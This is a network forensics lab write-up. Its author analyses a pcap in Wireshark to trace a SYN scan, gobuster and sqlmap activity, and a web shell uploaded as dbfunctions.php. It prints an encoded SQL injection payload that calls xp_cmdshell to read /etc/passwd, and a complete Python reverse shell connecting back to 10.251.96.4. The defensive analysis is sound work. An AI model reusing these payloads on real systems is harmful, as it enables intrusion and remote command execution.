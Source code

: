 # Network Analysis - Web Shell

## Scenario

The SOC received an alert in their SIEM for 'Local to Local Port Scanning' where an internal private IP began scanning another internal system. I was provided with a `.pcap` file and I investigated if this activity is malicious or not, using **Wireshark** in a Kali virtual machine.

## Analysis

I opened the `.pcap` file in **Wireshark** and searched for the packets that correspond to the port scanning activity, these are typically `TCP` packets. 
I started looking for `SYN` packets, which are typical for port scanning. I applied the filter `tcp.flags.syn == 1` and I found numerous `SYN` packets from the source IP  address `10.251.96.4`.

Next, I looked for the port range scanned by the suspicious host. To do that, I ordered the packets by the `Destination port` column and found a clear range of `1 - 1024`.

Since most of the packets are `SYN` and the rest are `SYN-ACK`, it indicates that the attacker is perfmorming a `SYN scan`, a stealthy scan that sends `SYN` packets to open ports but doesn't complete the `TCP handshake`, which is why it doesn't fully establish a connection.

To establish which tools were used to perform reconnaisance against open ports I started to search for signatures. First, I filtered `ip.dst == 10.251.96.5 && http.user_agent` to show all the packets with a user agent string to the target IP. 
I saw many `GET` request to different paths on the same domain, like `admin`, I inspected some of them and I found `gobuster 3.0.1` in the **User-Agent Header**.
To establish the second tool, I proceeded to another `gobuster` packets and notice a pattern with a URL with embedded SQL commands, a clear hint of a possilbe **SQL injection**: 

```
POST /?QLuT=8454%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23
```

A quick research told me that this is a typical **UNION SELECT** SQL injection payload designed to extract data from the database. The attacker is attempting to retrieve table names from the `information_schema.tables` table, which contains metadata about all tables in the database.

After analyzing the User agent I found another tool: `sqlmap 1.4.7`.

Next question is the name of the PHP file through wich the attacker uploaded a web shell. To approach this, I looked in the `HTTP POST` requests using the filter `http.request.method == "POST"`. The attacker might have uploaded the shell through a `POST` request, which is common for file uploads. I search through the POST requests and in the **Referer** header of the `16102` package I found `http://10.251.96.5/editprofile.php`, so I concluded that the attacker interacred with the `editprofile.php` page on the server.

To find out the name of the web shell that the attacker uploaded, I followed the TCP stream of the packet `16102` - which translates to`tcp.stream eq 1270`- this showed me the packet information, plaintext of `fileToUpload`, which is `dbfunctions.php`.

Next, to find the parameter used in the web shell for executing commands, I looked for interactions with `dbfunctions.php`:

```
http.request.uri contains "dbfunctions.php"
```

This filter checks for `GET` or `POST`requests that target the `dbfunctions.php` file. These requests often contain a parameter that the attacker is using to pass commands for execution.
In the results, I found a `cmd` parameter which contains **operating system commands** like `id` and `whoami`.

Ordering the packets by Number, I saw that the first one in being executed is `id.`

The next command being executed is clearly a Python script:

![Python script](../assets/python-script.png)

After cleaning it and indenting it this is the result:

```py
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("10.251.96.4", 4422))

os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

subprocess.call(["/bin/sh", "-i"])
```

This is a `reverse` shell to `10.251.96.4` to utilize `/bin/sh` through the port `4422`.